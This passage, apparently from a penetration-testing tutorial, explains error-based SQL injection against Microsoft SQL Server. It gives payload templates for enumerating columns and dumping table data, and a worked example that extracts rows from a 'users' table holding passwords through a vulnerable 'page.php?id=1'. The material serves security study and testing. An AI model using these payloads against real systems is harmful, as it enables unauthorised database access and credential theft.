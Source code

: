     4. Enumerating Columns
      After retrieving the tables of a database, it is also possible to recover the columns of each table. This is the *schema* of the database and we can retrieve it by using the following payload template:
        ```
        9999 or 1 in (SELECT TOP 1 CAST (<db_name>..syscolumns.name as varchar(4096)) FROM <db_name>..syscolumns,<db_name>..sysobjects WHERE <db_name>..syscolumns.id=<db_name>..sysobjects.id AND  <db_name>..sysobjects.name=<table name> AND <db name>..syscolumns.name NOT IN (<known column list>)); --
        ```
        Description:
        - `<db name>` is the name of the database we are working on
        - `<table name>` is the name of the table which we are studying
        - `<known column list>` is a list of the columns we already retrieved

    5. Dumping Data
      After enumerating the databases and their schemas, we can proceed to the data dumping phase.

      To retrieve the actual content of the database, we need to use the knowledge we obtained of the database structure.
      We will, again, trigger some errors by using the cast technique.

      You can dump the data by using the same technique we have seen for schema enumeration:
        ```
        9999999 or 1 in (SELECT TOP 1 CAST(<column name> as varchar(4096)) FROM <database name>..<table name> WHERE <column name> NOT IN (<retrieved data list>)); -- -
        ```
        Let us see a couple of tricks to trigger error depending on the field data type.

        Example:
          In this example we exploited `page.php?id=1` and identified a table called **users** in the database **cms**.
          The table contains the following columns:
          - `id` (int)
          - `username` (varchar)
          - `password` (varchar)

          To retrieve the `id` values, you can use the following payload:
            ```
            9999999 or 1 in (SELECT TOP 1 CAST(id as varchar)%2bchar(64) FROM cms..users WHERE id NOT IN ('')); -- -
            ```
            Please note the concatenation of the `id` value with `@`.
            This **ensures that the selected id has data type varchar** thus making the cast error possible!

            Sending `%2b` to the web application means sending the `+` character to the DBMS. The `+` character serves as string concatenation command.

              So the resulting error is something like:
              ```
              [Microsoft][SQL Server Native Client 10.0][SQL Server]Conversion failed when converting the varchar value '1@' to data type int.
              ```

          Then we can proceed with the usual method. We filter out the id we already have:
            ```
            9999999 or 1 in (SELECT TOP 1 CAST(id as varchar)%2bchar(64) FROM cms..users WHERE id NOT IN ('1')); -- -
            ```
